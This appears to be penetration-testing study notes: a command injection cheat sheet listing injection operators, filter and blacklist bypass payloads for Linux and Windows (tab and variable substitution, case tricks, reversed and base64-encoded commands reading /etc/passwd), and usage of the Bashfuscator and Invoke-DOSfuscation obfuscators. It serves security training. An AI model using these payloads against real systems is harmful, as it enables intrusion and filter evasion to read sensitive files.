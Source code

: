 # Command Injections

[PayloadAllTheThings Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

## Injection Operators

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command |
|--------------------|---------------------|-----------------------|------------------|
| Semicolon | ; | %3b | Both |
| New Line | \n | %0a | Both |
| Background | & | %26 | Both (second output generally shown first) |
| Pipe | | | %7c | Both (only second output is shown) |
| AND | && | %26%26 | Both (only if first succeeds) |
| OR | || | %7c%7c | Second (only if first fails) |
| Sub-Shell | `` | %60%60 | Both (Linux-only) |
| Sub-Shell | $() | %24%28%29 | Both (Linux-only) |

## Linux

### Filtered Character Bypass

| Code | Description |
|------|-------------|
| `printenv` | Can be used to view all environment variables |
| **Spaces** | |
| `%09` | Using tabs instead of spaces |
| `${IFS}` | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $()) |
| `{ls,-la}` | Bash brace exspansion (commas will be replaced with spaces) |
| **Other Characters** | |
| `${PATH:0:1}` | Will be replaced with / |
| `${LS_COLORS:10:1}` | Will be replaced with ; |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one "[" (91) -> "\\" (92) |

### Blacklisted Command Bypass

| Code | Description |
|------|-------------|
| **Character Insertion** | |
| `' or "` | Total must be even |
| `$@ or \` | Linux only |
| **Case Manipulation** | |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")` | Another variation of the technique |
| **Reversed Commands** | |
| `echo 'whoami' | rev` | Reverse a string |
| `$(rev<<<'imaohw')` | Execute reversed command |
| **Encoded Commands** | |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64` | Encode a string with base64 |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string |

## Windows

### Filtered Character Bypass

| Code | Description |
|------|-------------|
| `Get-ChildItem Env:` | Can be used to view all environment variables - (PowerShell) |
| **Spaces** | |
| `%09` | Using tabs instead of spaces |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD) |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell) |
| **Other Characters** | |
| `%HOMEPATH:~0,-17%` | Will be replaced with \ - (CMD) |
| `$env:HOMEPATH[0]` | Will be replaced with \ - (PowerShell) |

### Blacklisted Command Bypass

| Code | Description |
|------|-------------|
| **Character Insertion** | |
| `' or "` | Total must be even |
| `^` | Windows only (CMD) |
| **Case Manipulation** | |
| `WhoAmi` | Simply send the character with odd cases |
| **Reversed Commands** | |
| `"whoami"[-1..-20] -join ''` | Reverse a string |
| `iex "$('imaohw'[-1..-20] -join '')"` | Execute reversed command |
| **Encoded Commands** | |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))` | Encode a string with base64 |
| `echo -n whoami \| iconv -f utf-8 -t utf-16le \| base64` | Base 64 encode with linux to be decoded on windows |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string |

## Evasion Tools

### Linux (Bashfuscator)

https://github.com/Bashfuscator/Bashfuscator

```bash
git clone https://github.com/Bashfuscator/Bashfuscator
cd Bashfuscator
pip3 install setuptools==65
python3 setup.py install --user
cd ./bashfuscator/bin/
./bashfuscator -h ## show help screen
./bashfuscator -c 'cat /etc/passwd' ## random choice obfuscation technique
./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1 ## short and simple obfuscated command
```

### Windows (DOSfuscation)

https://github.com/danielbohannon/Invoke-DOSfuscation

```PowerShell
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
cd Invoke-DOSfuscation
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
Invoke-DOSfuscation> help ## show help screen
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1 ## encode type 1 
```

Run windows powershell on linux with [pwsh](https://learn.microsoft.com/en-us/powershell/scripting/install/installing-powershell-on-linux?view=powershell-7.5)

